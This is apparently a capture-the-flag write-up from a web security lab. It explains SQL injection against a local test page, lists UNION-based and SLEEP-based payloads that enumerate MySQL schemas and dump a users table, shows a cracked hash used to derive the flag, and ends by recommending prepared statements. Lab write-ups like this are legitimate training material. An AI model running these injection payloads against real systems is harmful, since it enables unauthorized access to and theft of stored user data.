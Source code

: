 # SQL_Injection
Ahhhh the notorious SQL Injection. This attack from the hacker aims to manipulate the database specifically an SQL database to expose sensitive data such as user email and password if the website does have such. Basically if an Input is used to search through the database for a specif field, table or database data, and is not hanled properly by the server. A hacker can just simply append an Instruction to value that asks for the database to give out more information than what was originally purposed.

## Example
In http://192.168.43.251/index.php?page=member, we are presented with a page that has a form input. An obvious assumpution is that since the input requires a values to search for a particular member, that value is used by the server to query the database. We can simply check this by giving a value and appending to it anything that might error, or even tell us the type of SQL database that is beign used for example

If we give this value ' and then we get an error from the database then we know that the input is being taken straight to the database and is being as is. This is exacly what happens in this case. We receive the 
Error: "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1".
From here on out we can genlty manipulate the database and ask it to give the name of the tables, databases and the type of database being used. And so through a set of commands we are not only able to determine the type of database but alson all the databases along with their tables and fields.

## Commands
* 1  AND 1 = SLEEP(2);--
* 1 UNION (SELECT 1,2 FROM dual );--
* 1 UNION (SELECT TABLE_NAME, TABLE_SCHEMA  FROM information_schema.tables);--
* 1 UNION (SELECT COLUMN_NAME, 1 FROM information_schema.columns );--

### One of these tables is users
Table : users
> Colunm : user_id
> Colunm : first_name
> Colunm : last_name
> Colunm : town
> Colunm : country
> Colunm : planet
> Colunm : Commentaire
> Colunm : countersign

 * And through a number of these commands we are able to retrieve out flag   
### Retrive flag
* 1 UNION (SELECT user_id, first_name FROM users);--
* 1 UNION (SELECT last_name, town FROM users);--
* 1 UNION (SELECT country, planet FROM users);--
* 1 UNION (SELECT Commentaire, countersign FROM users);--

* instruction: Decrypt this password -> then lower all the char. Sh256 on it and it's good !   
* hash : 5ff9d0165b4f92b14994e5c685cdce28

* flag: 5ff9d0165b4f92b14994e5c685cdce28 -md5> fortytwo -sha256> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 

## Remedy
* Now all of this  can be prevented by using prepared statements. Prepared statement will tell that database to look at the input as nothing else but just that, an input.

# Resources
* https://www.youtube.com/watch?v=ciNHn38EyRc